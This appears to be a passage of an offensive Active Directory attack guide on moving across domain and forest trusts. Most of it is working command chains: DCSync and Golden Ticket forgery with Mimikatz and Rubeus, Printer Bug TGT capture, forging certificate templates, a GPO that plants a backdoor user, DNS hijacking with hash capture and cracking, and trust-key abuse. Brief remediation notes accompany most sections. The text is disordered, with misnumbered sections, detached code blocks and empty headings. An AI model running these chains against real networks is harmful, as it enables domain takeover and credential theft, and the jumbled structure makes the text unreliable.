.\SharpHound.exe -c All -d target.domain -
Get-DomainTrust -domain [domain] | Select TrustAttributes
Remediation
Regularly audit all trust relationships using Get-ADTrust -Filter *. Remove unnecessary trusts. Document all trusts and their business justification. Use visualizations in reports to convey risk to stakeholders.
12.2 Unconstrained Delegation (Intra-Forest)
Unconstrained delegation allows a service to impersonate any user who authenticates to it by caching their full TGT. By default, all domain controllers have unconstrained delegation enabled. When a user authenticates to a server with unconstrained delegation, their TGT is embedded in the service ticket and cached on the server. An attacker who compromises such a server can extract these TGTs and impersonate the users.
Root cause: When unconstrained delegation is enabled, the KDC includes the user's TGT inside the service ticket (via the OK-AS-DELEGATE flag). The server then caches this TGT in memory. If delegation were not enabled, only the TGS ticket would be stored, limiting impersonation to that specific service. Users with the Account is sensitive and cannot be delegated flag or members of the Protected Users group are immune because their TGTs are not forwarded.

Attack scenarios in intra-forest context:
12.2.1 Exploiting the Printer Bug
The Printer Bug exploits a flaw in the MS-RPRN protocol. Any domain user can call RpcRemoteFindFirstPrinterChangeNotificationEx to force a target server to authenticate to an attacker-controlled host over SMB.
# Step 1: Monitor for incoming TGTs on the child DC
.\Rubeus.exe monitor /interval:5 /nowrap
# Step 2: Force parent DC to authenticate to child DC
.\SpoolSample.exe [dc-fqdn] dc02.dev.[domain]
# Step 3: Rubeus captures DC01$ TGT - renew and inject it
.\Rubeus.exe renew /ticket:doIFvDCCBbi... /pttWith the parent DC's machine account TGT in memory, execute a DCSync attack to retrieve any user's NTLM hash from the parent domain.
Methodology
-
.\Rubeus.exe monitor /interval:5 /nowrap -
.\SpoolSample.exe dc01.parent.domain dc02.child.domain -
.\Rubeus.exe renew /ticket:<base64_ticket> /ptt -
.\mimikatz.exe "lsadump::dcsync /domain:parent.domain /user:parent\Administrator" exit
Remediation
Disable the Print Spooler service on domain controllers (Stop-Service Spooler; Set-Service Spooler -StartupType Disabled). Add sensitive accounts to the Protected Users group. Set the Account is sensitive and cannot be delegated flag on privileged accounts. Monitor Event ID 4624 for logon type 3 (network) from DCs to unexpected hosts.
12.3 Configuration Naming Context Abuse
The Configuration Naming Context (NC) stores forest-wide configuration data and is replicated to every domain controller in the forest. Its Distinguished Name is CN=Configuration,DC=forestroot,DC=tld. Every writable DC holds a writable copy of the Configuration NC, meaning changes made on a child DC propagate upward to the parent domain through replication.
Root cause: NT AUTHORITY\SYSTEM on any writable DC has GenericAll (Full Control) rights on the Configuration NC. This means a SYSTEM account on a child DC can modify forest-wide configuration objects in its local replica, and those changes replicate to all other DCs including the parent.
# Create machine account and set dnsHostName in one step
certipy account create -u '[user]@lab.local' -p '[password]' -dc-ip [target-ip] -user [machine-name] -dns [dc-fqdn]
# Request certificate as the spoofed machine
certipy req -u '[machine-name]$' -p '[machine-pass]' -ca [ca-name] -template 'Machine' -dc-ip [target-ip]
# Authenticate as DC
certipy auth -pfx dc02.pfxMethodology
-
certipy req -u "$USER@$DOMAIN" -p "$PASS" -ca $CA -dc-ip $DC_IP -template User -
certipy account create -u "$USER@$DOMAIN" -p "$PASS" -dc-ip $DC_IP -user EVILPC -dns $DC_FQDN -
certipy req -u 'EVILPC$' -p "$MACHINE_PASS" -ca $CA -template Machine -dc-ip $DC_IP certipy auth -pfx $DC_HOSTNAME.pfx
11.15.4 Remediation
- Install the May 2022 security update (KB5014754) which adds
szOID_NTDS_CA_SECURITY_EXTto certificates. - Set
StrongCertificateBindingEnforcement = 2for full enforcement. - Restrict the
ms-DS-MachineAccountQuotaattribute to 0 to prevent unprivileged users from creating machine accounts. - Monitor for
dNSHostNamechanges on computer objects.
11.16 PKINIT and Alternative Authentication
11.16.1 PKINIT Overview
PKINIT (Public Key Cryptography for Initial Authentication in Kerberos) extends Kerberos to allow certificate-based initial authentication. Instead of symmetric-key pre-authentication, the client uses an X.509 certificate and its private key to prove identity to the KDC. This is the default method Certipy and Rubeus use to obtain TGTs from certificates.

11.16.2 Schannel Authentication
Schannel is Windows' TLS/SSL security provider. During TLS handshake, the client presents a certificate for authentication. Schannel tries Kerberos S4U2Self first; if that fails, it uses certificate mapping via MS-RCMP (SAN, subject/issuer fields). Protocols supporting Schannel auth: LDAPS (works by default with ADCS), WinRM, RDP, IIS (requires additional setup).
11.16.3 When PKINIT Is Not Supported
If the KDC returns KDC_ERR_PADATA_TYPE_NOSUPP, it means the DC lacks a certificate with the Smart Card Logon EKU, so PKINIT fails. In this scenario, use PassTheCert to authenticate via LDAPS (Schannel) instead.
11.16.4 PassTheCert (LDAPS Authentication)
PassTheCert (by Yannick Meheut) authenticates via LDAPS using a certificate when PKINIT is unavailable. It supports four privilege escalation paths:
- DCSync: grant a user Replication-Get-Changes-All rights.
- RBCD: modify
msDS-AllowedToActOnBehalfOfOtherIdentityfor delegation attacks. - Add Computer: create a machine account for RBCD.
- Password Reset: change a user's password.
Extract keys from PFX:
# Extract private key
openssl pkcs12 -in administrator.pfx -nocerts -out administrator.key
# Extract public key
openssl pkcs12 -in administrator.pfx -clcerts -nokeys -out administrator.crt
# Remove passphrase (optional)
openssl rsa -in administrator.key -out administrator-nopass.key| Principal | Rights on Configuration NC |
|---|---|
| NT AUTHORITY\SYSTEM | Full Control (GenericAll) |
| DOMAIN\Domain Admins | Read all, List all, Write all, All Extended rights |
| FOREST\Enterprise Admins | Full Control (GenericAll) |
# Enumerate ACLs on Configuration NC
$dn = "CN=Configuration,DC=[DOMAIN],DC=AD"
$acl = Get-Acl -Path "AD:\$dn"
$acl.Access | Where-Object {$_.ActiveDirectoryRights -match "GenericAll|Write"}Attacks that abuse Configuration NC replication include: ADCS attacks (creating vulnerable certificate templates), GPO on site attacks (linking malicious GPOs to parent domain sites), GoldenGMSA attacks (computing gMSA passwords), and DNS trust attacks (modifying parent domain DNS records).
Remediation
Monitor replication changes to the Configuration NC, especially new objects in CN=Certificate Templates and CN=Sites. Implement change auditing on Configuration NC objects. Limit SYSTEM-level access to child DCs through strong physical and logical security. Monitor Event ID 5136 (directory service object modification) for Configuration NC changes.
12.4 Abusing ADCS Across Trust (Child to Parent)
Active Directory Certificate Services (ADCS) stores its configuration (CAs and certificate templates) in the Configuration NC under CN=Public Key Services,CN=Services,CN=Configuration. Since a child DC's SYSTEM account can modify Configuration NC objects locally and have them replicate to the parent, an attacker can create a vulnerable certificate template (ESC1) and publish it to the parent's CA.
Root cause: Certificate templates are stored as pKICertificateTemplate objects in the Configuration NC. The Enrollment Services container holds pKIEnrollmentService objects that define which templates a CA publishes. SYSTEM on a child DC can write to both containers because of Configuration NC permissions inheritance.
12.4.1 Performing the ADCS Attack
Step 1: Open MMC as SYSTEM on the child DC and add the Certificate Templates snap-in.
# Run PsExec to get SYSTEM shell, then open MMC
.\PsExec -s -i powershell
mmcStep 2: Duplicate an existing template (e.g., "User"), setting Supply in the request as the Subject Name option (creates ESC1 vulnerability). Grant the child domain Administrator Full Control over the template.
Step 3: Publish the template to the CA by adding it to the pKIEnrollmentService object's certificateTemplates attribute. If SYSTEM lacks direct write access to this object, modify the Public Key Services container's permissions inheritance to grant SYSTEM access to "This object and all descendant objects."
Step 4: Request a certificate for the parent domain Administrator using Certify.
# Request certificate with alternative name
.\Certify.exe request /ca:[domain]\[DOMAIN]-DC01-CA /domain:[domain] /template:"Copy of User" /altname:[DOMAIN]\AdministratorStep 5: Convert the PEM certificate to PFX format, then request a TGT.
# Format and convert certificate
sed -i 's/\s\s\+/\n/g' cert.pem
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
# Request TGT using the certificate
.\Rubeus.exe asktgt /domain:[domain] /user:Administrator /certificate:cert.pfx /pttMethodology
-
.\PsExec -s -i powershell -
.\Certify.exe request /ca:[domain]\CA-NAME /domain:[domain] /template:"Copy of User" /altname:PARENT\Administrator -
.\Rubeus.exe asktgt /domain:[domain] /user:Administrator /certificate:cert.pfx /ptt
Remediation
Monitor for new certificate template objects in CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration. Audit changes to pKIEnrollmentService objects. Restrict who can create and publish certificate templates. Use Microsoft's PKI health check tools to identify ESC1-vulnerable templates.
12.5 GPO On Site Attack (Child to Parent)
A Group Policy Object (GPO) created in a child domain can be linked to an AD replication site where the parent DC resides. Since replication site objects live in the Configuration NC, a child DC with SYSTEM privileges can link GPOs to sites that govern parent DCs, causing malicious policies to apply to the parent domain.
Root cause: AD replication sites are stored under CN=Sites,CN=Configuration. SYSTEM on a child DC can write to this container. When a GPO is linked to a site, all computers at that site process the GPO. The GPO itself (stored in the child domain's SYSVOL and AD) is accessible across the forest trust.
12.5.1 Performing the Attack
The -Server parameter in New-GPLink specifies the child DC, ensuring the link is created in the child's local Configuration NC replica and then replicated to the parent.
Methodology
-
New-GPO "Backdoor" -
New-GPOImmediateTask -Force -TaskName 'Backdoor' -GPODisplayName "Backdoor" -Command cmd.exe -CommandArguments "/c net user backdoor P@ss /add" -
Get-ADDomainController -Server [domain] | Select ServerObjectDN -
New-GPLink -Name "Backdoor" -Target "CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=ROOT,DC=AD" -Server child.domain -
.\Rubeus.exe asktgt /user:backdoor /password:'P@ss' /domain:[domain] /ptt
Remediation
Monitor for new GPO links on site objects (Event ID 5136 on CN=Sites container). Audit GPO creation in child domains. Restrict GPO linking permissions. Monitor for unexpected user creation events (Event ID 4720) on parent DCs. Consider blocking GPO inheritance at the site level for critical sites.
# Step 1: Create a new GPO in the child domain
$gpo = "Backdoor"
New-GPO $gpo
# Step 2: Add a malicious scheduled task using PowerView (older version with New-GPOImmediateTask)
Import-Module .\PowerView_2.ps1
New-GPOImmediateTask -Verbose -Force -TaskName 'Backdoor' -GPODisplayName "Backdoor" -Command C:\Windows\System32\cmd.exe -CommandArguments "/c net user backdoor B@ckdoor123 /add"
# Step 3: Identify the parent DC's replication site
Get-ADDomainController -Server [domain] | Select ServerObjectDN
# Step 4: Link the GPO to the parent DC's site as SYSTEM
.\PsExec.exe -s -i powershell.exe
$sitePath = "CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=[DOMAIN],DC=AD"
New-GPLink -Name "Backdoor" -Target $sitePath -Server dev.[domain]
# Step 5: After replication, request TGT for the backdoor user
.\Rubeus.exe asktgt /user:backdoor /password:'B@ckdoor123' /domain:[domain] /ptt12.6 GoldenGMSA Attack (Child to Parent)
Group Managed Service Accounts (gMSAs) have their passwords automatically managed by AD, rotated every 30 days, and generated as 256-byte random values. The password is derived from the KDS root key combined with gMSA-specific attributes. The KDS root key is stored in CN=Master Root Keys,CN=Group Key Distribution Service,CN=Services,CN=Configuration: within the Configuration NC. A child DC's SYSTEM account can read these keys from its local Configuration NC replica.
Root cause: KDS root key attributes (msKds-SecretAgreementParam, msKds-RootKeyData, etc.) are replicated to all DCs via the Configuration NC. While the DACL restricts access to Enterprise Admins, Domain Admins, and SYSTEM, a child DC's SYSTEM account can read these attributes from its local replica. Combined with the gMSA's msds-ManagedPasswordID from the parent domain, an attacker can compute the gMSA password.
12.6.1 Online Attack
# Run as SYSTEM on child DC
.\PsExec -s -i powershell
# Enumerate gMSAs in parent domain
.\GoldenGMSA.exe gmsainfo --domain [domain]
# Note the SID: [sid]
# Compute password (auto-fetches KDS key from child, gMSA info from parent)
.\GoldenGMSA.exe compute --sid "[sid]" --forest dev.[domain] --domain [domain]12.6.2 Offline Attack
# Step 1: Get gMSA info (SID + msds-ManagedPasswordID) from parent
.\GoldenGMSA.exe gmsainfo --domain [domain]
# Step 2: Get KDS key from child (as SYSTEM)
.\GoldenGMSA.exe kdsinfo --forest dev.[domain]
# Step 3: Compute password manually with both pieces
.\GoldenGMSA.exe compute --sid "S-1-5-21-...-1106" --kdskey <base64_kds_blob> --pwdid <base64_pwdid>12.6.3 Converting gMSA Password to NT Hash
gMSA passwords contain non-printable characters, so they must be converted to an NT hash for use with tools like Rubeus.
# Using hashlib (requires OpenSSL with MD4 support)
import hashlib, base64
base64_input = "WITSKRtGahQFvL/iUmJf..."
print(hashlib.new("md4", base64.b64decode(base64_input)).hexdigest())
# Using pycryptodome (alternative)
from Crypto.Hash import MD4
import base64
base64_input = "WITSKRtGahQFvL/iUmJf..."
print(MD4.new(base64.b64decode(base64_input)).hexdigest())
# Request TGT using the computed NT hash
.\Rubeus.exe asktgt /user:svc_devadm$ /rc4:32ac66cd327aa76b3f1ca6eb82a801c5 /domain:[domain] /pttMethodology
-
.\PsExec -s -i powershell -
.\GoldenGMSA.exe gmsainfo --domain [domain] -
.\GoldenGMSA.exe compute --sid "S-1-5-21-...-RID" --forest child.domain --domain parent.domain -
python3 convert-to-nt.py -
.\Rubeus.exe asktgt /user:svc_account$ /rc4:HASH /domain:[domain] /ptt
Remediation
Limit gMSA password retrieval principals to only necessary accounts. Monitor access to KDS root key objects. Regularly rotate KDS root keys. Use the PrincipalsAllowedToRetrieveManagedPassword attribute carefully and audit it regularly.
12.7 DNS Trust Attack (Child to Parent)
DNS records are stored in three AD locations: DomainDnsZones partition, ForestDnsZones partition, and Domain partition. Enterprise Domain Controllers (EDCs) have elevated privileges on DNS containers. A child DC with SYSTEM privileges can create, delete, and modify DNS records in the parent domain, enabling denial-of-service (DoS) and man-in-the-middle (MitM) attacks.
12.7.1 DNS Wildcard Injection
A wildcard DNS record acts as a catch-all for queries that do not match any existing record. Injecting a wildcard into the parent domain redirects all non-existent hostname lookups to the attacker's IP.
# Verify non-existent name returns error
Resolve-DNSName TEST1.[domain] # Should fail
# Run as SYSTEM on child DC
.\PsExec -s -i powershell
# Inject wildcard record using Powermad (defaults to source IP)
Import-Module .\Powermad.ps1
New-ADIDNSNode -Node * -domainController DC01.[domain] -Domain [domain] -Zone [domain] -Tombstone -Verbose
# Verify - any non-existent name now resolves to child DC IP
Resolve-DNSName TEST2.[domain]
Resolve-DNSName ANYTHING.[domain]The -Tombstone argument places the wildcard node in a state that permits any authenticated user to alter or tombstone it later.
12.7.2 Arbitrary DNS Record Modification
Existing DNS records in the parent domain can be modified to redirect traffic. Combined with hash interception tools, this enables credential theft.
# As SYSTEM on child DC - enumerate parent DNS records
Get-DnsServerResourceRecord -ComputerName [dc-hostname].[domain] -ZoneName [domain] -Name "@"
# Modify DEV01's DNS record to point to child DC
$Old = Get-DnsServerResourceRecord -ComputerName [dc-hostname].[domain] -ZoneName [domain] -Name DEV01
$New = $Old.Clone()
$TTL = [System.TimeSpan]::FromSeconds(1)
$New.TimeToLive = $TTL
$New.RecordData.IPv4Address = [System.Net.IPAddress]::Parse('[dc-ip]')
Set-DnsServerResourceRecord -NewInputObject $New -OldInputObject $Old -ComputerName [dc-hostname].[domain] -ZoneName [domain]
# Start Inveigh to intercept NTLMv2 hashes
Import-Module .\Inveigh.ps1
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y -SMB Y
# Crack captured NTLMv2 hash
hashcat -m 5600 [hash-file] /usr/share/wordlists/rockyou.txtMethodology
-
.\PsExec -s -i powershell -
New-ADIDNSNode -Node * -domainController DC01.[domain] -Domain [domain] -Zone [domain] -Tombstone -Verbose -
Set-DnsServerResourceRecord -NewInputObject $New -OldInputObject $Old -ComputerName [dc-hostname].[domain] -ZoneName [domain] -
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y -SMB Y -
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
Remediation
Monitor for DNS record changes (Event ID 541 in DNS Server logs). Restrict DNS record modification permissions. Implement DNSSEC where possible. Monitor for wildcard DNS records. Audit the DnsAdmins group membership.
12.8 Abusing Foreign Groups and ACL Principals (Intra-Forest)
Within a forest, users from a child domain can be added to groups in the parent domain. This is governed by group scope rules: Universal and Domain Local groups can contain users from child domains; Global groups can only contain users from the same domain.
| Group Scope | Can Contain Members From |
|---|---|
| Universal | Any domain in the same forest |
| Global | Same domain only |
| Domain Local | Any domain in the same forest, any trusted domain, other forests |
12.8.1 Enumerating Foreign Group Membership
Example: User DEV\jerry is a member of Inlanefreight_admins in the parent domain, which is itself a member of Account Operators. Jerry therefore inherits Account Operators privileges in the parent domain.
12.8.2 Abusing Foreign Group Membership
12.8.3 Foreign ACL Principals
Users from a child domain can also hold ACL permissions (GenericAll, WriteProperty, WriteDacl, etc.) on objects in the parent domain.
# Enumerate ACLs for a specific user
$sid = Convert-NameToSid rita
Get-DomainObjectAcl -ResolveGUIDs -Identity * -domain [domain] | ? {$_.SecurityIdentifier -eq $sid}
# Enumerate foreign ACLs for ALL users (resource-intensive)
$Domain = "[domain]"
$DomainSid = Get-DomainSid $Domain
Get-DomainObjectAcl -Domain $Domain -ResolveGUIDs -Identity * | ? {
($_.ActiveDirectoryRights -match 'WriteProperty|GenericAll|GenericWrite|WriteDacl|WriteOwner') -and
($_.AceType -match 'AccessAllowed') -and
($_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$') -and
($_.SecurityIdentifier -notmatch $DomainSid)
}
# Convert SIDs to usernames
ConvertFrom-SID [sid]12.8.4 Shadow Credentials Attack via Enterprise Key Admins
If a child domain user has GenericAll on the Enterprise Key Admins group, they can add themselves to this group. Members of Enterprise Key Admins can modify the msDS-KeyCredentialLink attribute on any AD object, enabling a Shadow Credentials attack against the parent DC.
# Add child user to Enterprise Key Admins
Add-DomainGroupMember -Identity 'Enterprise Key Admins' -Members 'DEV\sentinal' -Domain [domain]
# Use Whisker to add shadow credentials to parent DC
.\Whisker.exe add /target:DC01$ /domain:[domain]
# Request TGT for DC01$ using the certificate from Whisker
.\Rubeus.exe asktgt /user:DC01$ /certificate:MIIJuAIBAz... /password:"bFBcclxFxc0nFChi" /domain:[domain] /dc:DC01.[domain] /getcredentials /show
# Perform S4U2self to impersonate Administrator on DC01
.\Rubeus.exe s4u /dc:DC01.[domain] /ticket:doIGbDCCBmi... /impersonateuser:[email protected] /ptt /self /service:host/DC01.[domain] /altservice:cifs/DC01.[domain]
# Access parent DC
dir \\DC01.[domain]\c$Methodology
-
Get-DomainForeignUser -
Get-DomainObjectAcl -ResolveGUIDs -Identity * -domain [domain] | ? {$_.SecurityIdentifier -eq $sid} -
.\Rubeus.exe createnetonly /program:powershell.exe /show .\Rubeus.exe asktgt /user:targetuser /password:pass /domain:[child-domain] /ptt -
Add-DomainGroupMember -Identity 'TargetGroup' -Members 'CHILD\user' -Domain [domain]
Remediation
Audit cross-domain group memberships regularly. Remove unnecessary foreign group memberships. Monitor changes to high-privilege groups (Event ID 4728, 4732, 4756). Audit ACL permissions on sensitive objects for foreign SIDs. Restrict Enterprise Key Admins membership.
# Create sacrificial logon session
.\Rubeus.exe createnetonly /program:powershell.exe /show
# In the new window, request TGT for the foreign group member
.\Rubeus.exe asktgt /user:jerry /password:jerry /domain:dev.[domain] /ptt
# With Account Operators privileges, create a user in parent domain
Import-Module .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'T3st@123' -AsPlainText -Force
New-DomainUser -Domain [domain] -SamAccountName testuser -AccountPassword $SecPassword
# Add user to DNSAdmins for privilege escalation
Add-ADGroupMember -Identity "DNSAdmins" -Members testuser -Server [domain]12.9 ExtraSids Attack (Child to Parent)
The ExtraSids attack exploits SID history to escalate from a compromised child domain to the parent domain. Within the same AD forest, SID filtering is not applied on intra-forest trusts. By forging a Golden Ticket with the Enterprise Admins SID in the ExtraSIDs field, an attacker gains administrative access to the entire forest.
Root cause: The sidHistory attribute is respected within a forest because SID filtering is only applied to cross-forest trusts. A Golden Ticket forged with the child domain's KRBTGT hash can include arbitrary SIDs in the PAC's ExtraSIDs array. When the parent DC processes this ticket, it grants the privileges associated with those SIDs.
Prerequisites:
12.9.1 ExtraSids Attack - Windows
# Step 1: DCSync to get child domain KRBTGT hash
.\mimikatz.exe "lsadump::dcsync /user:DEV\krbtgt" exit
# Hash NTLM: 992093609707726257e0959ce3e24771
# Step 2: Get child domain SID
Import-Module .\PowerView.ps1
Get-DomainSID
# [domain-sid]
# Step 3: Get Enterprise Admins SID from parent
Get-ADGroup -Identity "Enterprise Admins" -Server "[domain]"
# SID: [sid]
# Step 4: Forge Golden Ticket with Rubeus
.\Rubeus.exe golden /rc4:992093609707726257e0959ce3e24771 /domain:dev.[domain] /sid:[domain-sid] /sids:[sid] /user:Administrator /ptt
# Or with Mimikatz
mimikatz # kerberos::golden /user:Administrator /domain:dev.[domain] /sid:[domain-sid] /krbtgt:992093609707726257e0959ce3e24771 /sids:[sid] /ptt
# Step 5: Verify and access parent DC
klist
ls \\DC01\c$\Users\Administrator\Desktop12.9.2 ExtraSids Attack - Linux
# Step 1: DCSync for child KRBTGT
secretsdump.py dev.[domain]/Administrator:'[password]'@[target-ip] -just-dc-user DEV/krbtgt
# Step 2: Get child domain SID
lookupsid.py dev.[domain]/Administrator:'[password]'@[target-ip] | grep "Domain SID"
# Step 3: SSH dynamic port forwarding to reach parent DC
ssh -D 9050 [email protected]
# Step 4: Get Enterprise Admins SID from parent via proxychains
proxychains lookupsid.py dev.[domain]/Administrator:'[password]'@[target-ip] | grep -B12 "Enterprise Admins"
# Step 5: Create Golden Ticket
ticketer.py -nthash [ntlm-hash] -domain dev.[domain] -domain-sid [domain-sid] -extra-sid [sid] [user]
# Step 6: Use the ticket
export KRB5CCNAME=[user].ccache
proxychains psexec.py dev.[domain]/[email protected] -k -no-pass -target-ip [target-ip]12.9.3 Automating with raiseChild.py
Methodology
-
.\mimikatz.exe "lsadump::dcsync /user:CHILD\krbtgt" exit -
Get-DomainSID -
Get-ADGroup -Identity "Enterprise Admins" -Server [domain] -
.\Rubeus.exe golden /rc4:HASH /domain:[child-domain] /sid:CHILD_SID /sids:EA_SID /user:Administrator /ptt -
ls \\DC01.[domain]\c$
Remediation
The ExtraSids attack cannot be fully prevented within a forest. If a child domain is compromised, the parent domain should be considered compromised. Focus on preventing child domain compromise. Rotate the KRBTGT password periodically (twice in succession). Monitor for Golden Ticket indicators: Event ID 4769 with encryption type 0x17, tickets with abnormally long lifetimes, TGTs for non-existent users.
# Fully automated child-to-parent escalation
proxychains raiseChild.py -target-exe [target-ip] dev.[domain]/[user]
# Prompts for password, then automatically:
# 1. Finds child DC and forest FQDN
# 2. Gets Enterprise Admins SID
# 3. DCSyncs child KRBTGT
# 4. Creates Golden Ticket with ExtraSIDs
# 5. Obtains parent domain admin credentials
# 6. Opens PSEXEC shell on parent DC12.10 Cross-Forest Kerberoasting
Kerberoasting can be performed across forest trusts when a bidirectional or one-way inbound trust exists. Any user in the trusting domain can request TGS tickets for service accounts in the trusted domain, then crack them offline.
Root cause: Kerberos service ticket requests traverse trust boundaries. When a bidirectional forest trust exists, any authenticated user from either forest can request TGS tickets for SPNs in the other forest. The TGS ticket is encrypted with the service account's password hash, making it crackable offline.
12.10.1 Cross-Forest Kerberoasting from Windows
Methodology
-
Get-DomainTrust -
.\Rubeus.exe kerberoast /domain:trusted.forest -
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt
Remediation
Use strong passwords (25+ characters) for service accounts. Prefer gMSAs over traditional service accounts. Enable AES encryption for service accounts. Monitor Event ID 4769 for cross-domain TGS requests. Implement Selective Authentication on forest trusts to limit who can authenticate across trusts.
# RDP to the DC
proxychains xfreerdp /u:Administrator /p:'[password]' /v:[dc-ip] /dynamic-resolution
# Perform Kerberoasting against the trusted Logistics domain
.\Rubeus.exe kerberoast /domain:[foreign-domain]
# Crack the hash
hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt12.11 Trust Account Attack
When a one-way outbound trust is established from Forest-A to Forest-B, a trust account named A$ is created in Forest-B with Domain Users privileges. The trust account's password is stored as trust keys in Trusted Domain Objects (TDOs) on both sides. An administrator of Forest-A can extract these keys and authenticate as the trust account in Forest-B, gaining regular domain user access; enough for enumeration, Kerberoasting, and further attacks.
Root cause: Trust keys stored in TDOs are derived from the trust account's password. The RC4 keys are identical on both sides of the trust. By extracting the RC4 trust key from Forest-A's TDO, an attacker can authenticate as ForestB\ForestA$: a regular domain user in Forest-B. This effectively reverses the expected access direction of a one-way outbound trust.
12.11.1 Performing the Attack
Key detail: The trust keys (NewPassword and OldPassword in the TDO) are rotated every 30 days. The [Out] section in Mimikatz output contains the current key, and [Out-1] contains the previous key.
Methodology
-
Get-ADTrust -Filter * | Where-Object {$_.Direction -eq "Outbound"} -
mimikatz # lsadump::trust /patch -
.\Rubeus.exe asktgt /user:currentforest$ /domain:[domain] /rc4:TRUST_RC4_KEY /ptt -
.\Rubeus.exe kerberoast /domain:[domain] -
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt
Remediation
Use Selective Authentication on all cross-forest trusts. Minimize the number of one-way outbound trusts. Monitor for authentication by trust accounts (Event ID 4624 with the trust account name). Implement network segmentation between forests. Monitor for Kerberoasting activity (Event ID 4769 with 0x17 encryption type).
# Step 1: Verify the trust direction (Outbound from logistics to megacorp)
Get-ADTrust -Identity [partner-domain]
# Direction: Outbound
# Step 2: Extract forest trust keys with Mimikatz
.\mimikatz.exe
mimikatz # lsadump::trust /patch
# Look for [Out] [partner-domain] -> [foreign-domain] section
# rc4_hmac_nt: 68e456d3a95cc748ac5a2eae679b9c91
# Step 3: Request TGT for the trust account in the target forest
.\Rubeus.exe asktgt /user:logistics$ /domain:[partner-domain] /rc4:68e456d3a95cc748ac5a2eae679b9c91 /ptt
# Step 4: Now we can enumerate and Kerberoast Megacorp
.\SharpHound.exe -c All -d [partner-domain]
.\Rubeus.exe kerberoast /domain:[partner-domain]
# Step 5: Crack hashes and escalate
hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt
# Step 6: If a cracked account is Domain Admin, access the DC
.\Rubeus.exe asktgt /user:white.beard /password:CRACKED_PASS /domain:[partner-domain] /ptt
Enter-PSSession [foreign-dc].[partner-domain]12.12 Unconstrained Delegation Cross Forest
Unconstrained delegation abuse works across forest trusts under specific conditions. When a two-way forest trust exists with TGT delegation enabled and Selective Authentication disabled, the Printer Bug can force a DC in the trusted forest to send its TGT to a DC in the trusting forest.
12.12.1 Prerequisites
| Requirement | Description |
|---|---|
| TGT Delegation | Must be allowed on the trust (enabled by default) |
| Selective Authentication | Must NOT be enabled on the trust |
| Two-way trust | Bidirectional trust between the forests |
| Authentication Level | Description |
|---|---|
| Forest-wide authentication | Unrestricted authentication from trusted forest principals. Least secure. |
| Domain-wide authentication | Only principals from trusted domain can authenticate. |
| Selective authentication | Only specific users can access specific resources. Most secure. Blocks unconstrained delegation abuse. |
12.12.2 Performing the Attack
Methodology
-
Get-ADTrust -Identity target.forest | Select TGTDelegation, SelectiveAuthentication -
.\Rubeus.exe monitor /interval:5 /nowrap -
.\SpoolSample.exe dc02.target.forest dc01.our.forest -
.\Rubeus.exe renew /ticket:BASE64_TICKET /ptt
Remediation
Enable Selective Authentication on all cross-forest trusts. Disable the Print Spooler service on domain controllers. Set TGTDelegation to false on the trust. Add sensitive accounts to the Protected Users group.
# Step 1: Monitor tickets on target DC
.\Rubeus.exe monitor /interval:5 /nowrap
# Step 2: Force foreign DC to authenticate to target DC
.\SpoolSample.exe [foreign-dc-fqdn] [dc-fqdn]
# Step 3: Capture and renew the foreign DC TGT
.\Rubeus.exe renew /ticket:doIFFDCCBRCgAwIBBa... /ptt
# Step 4: Verify ticket in memory
klist
# Client: [foreign-dc]$ @ [foreign-domain]
# Step 5: Use TGT for DCSync against foreign domain12.13 SID History Injection Attack (Cross-Forest)
When users are migrated between forests, their original SID is preserved in the sidHistory attribute. If a migrated user had high privileges in their original domain, those privileges persist. Additionally, if SID history is still enabled on the trust (indicated by TREAT_AS_EXTERNAL in TrustAttributes), an ExtraSIDs attack can inject SIDs of high-privilege groups from the target forest, provided the RID is greater than 1000 (default SID filtering blocks RIDs below 1000 on cross-forest trusts).
12.13.1 Case 1: High-Privileged Migrated User
A migrated user retains their original domain's SID history. Even as a regular Domain User in the new domain, they retain privileges from their old membership.
# Enumerate users with SIDHistory
Get-ADUser -Filter "SIDHistory -Like '*'" -Properties SIDHistory
# Reset password if needed (we control the current domain)
net user [user] [password]
# Create sacrificial logon session and request TGT
.\Rubeus.exe createnetonly /program:powershell.exe /show
.\Rubeus.exe asktgt /user:[user] /password:[password] /domain:[domain] /ptt
# Access the foreign domain with inherited privileges
Enter-PSSession [foreign-dc-fqdn]12.13.2 Case 2: ExtraSIDs with SID History Enabled
If no migrated users exist but SID History is enabled (TREAT_AS_EXTERNAL in TrustAttributes), inject the SID of a high-privileged group with RID > 1000.
# Check if SID History is enabled
Get-DomainTrust -domain [foreign-domain] | Where-Object {$_.TargetName -eq "[domain]"} | Select TrustAttributes
# TREAT_AS_EXTERNAL,FOREST_TRANSITIVE = SID History enabled
# Find high-privileged group with RID > 1000 in target forest
# Use BloodHound to find Infrastructure group (RID 2602, member of Administrators)
Get-ADGroup -Identity "Infrastructure" -Server "[foreign-domain]"
# SID: [sid]
# Get current domain KRBTGT hash
.\mimikatz.exe "lsadump::dcsync /user:[DOMAIN]\krbtgt" exit
# Forge Golden Ticket with ExtraSIDs targeting the foreign group
.\Rubeus.exe golden /rc4:119885a9af438d1ef0d7543bed8b9ea1 /domain:[domain] /sid:[domain-sid] /sids:[sid] /user:jimmy /ptt
# Access target forest DC
dir \\[foreign-dc-fqdn]\c$Methodology
-
Get-DomainTrust -domain [domain] | Select TrustAttributes -
Get-ADUser -Filter "SIDHistory -Like '*'" -Properties SIDHistory -
Get-ADGroup -Identity "Infrastructure" -Server target.forest -
.\Rubeus.exe golden /rc4:KRBTGT_HASH /domain:[domain] /sid:CURRENT_SID /sids:TARGET_GROUP_SID /user:anyuser /ptt
Remediation
Disable SID History on cross-forest trusts after migration is complete. Ensure SID filtering is properly enabled. Audit migrated users' SIDHistory attributes. Remove unnecessary SIDHistory entries. Monitor for TGTs with ExtraSIDs (Event ID 4769).
